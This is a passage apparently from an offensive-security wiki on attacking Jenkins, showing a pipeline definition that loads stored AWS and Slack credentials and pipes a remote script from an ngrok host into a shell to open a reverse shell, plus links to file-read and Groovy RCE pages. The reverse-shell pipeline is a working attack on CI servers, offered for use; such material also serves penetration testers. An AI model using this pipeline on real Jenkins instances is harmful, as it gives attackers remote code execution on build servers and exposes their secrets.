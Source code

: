 ```bash
pipeline {
    agent {label 'built-in'}
```

### Complete example

Pipeline in an specific agent, with a cron trigger, with pipeline and stage env variables, loading 2 variables in a step and sending a reverse shell:

```bash
pipeline {
    agent {label 'built-in'}
    triggers { cron('H */4 * * 1-5') }
    environment {
        GENERIC_ENV_VAR = "Test pipeline ENV variables."
    }

    stages {
        stage("Build") {
                environment {
                    STAGE_ENV_VAR = "Test stage ENV variables."
                }
                steps {
            withCredentials([usernamePassword(credentialsId: 'amazon', usernameVariable: 'USERNAME', passwordVariable: 'PASSWORD'),
                     string(credentialsId: 'slack-url',variable: 'SLACK_URL'),]) {
                sh '''
                    curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh PASS
                '''
            }
        }
    }

    post {
        always {
            cleanWs()
        }
    }
}
```

## Arbitrary File Read to RCE

{{#ref}}
jenkins-arbitrary-file-read-to-rce-via-remember-me.md
{{#endref}}

## RCE

{{#ref}}
jenkins-rce-with-groovy-script.md
{{#endref}}
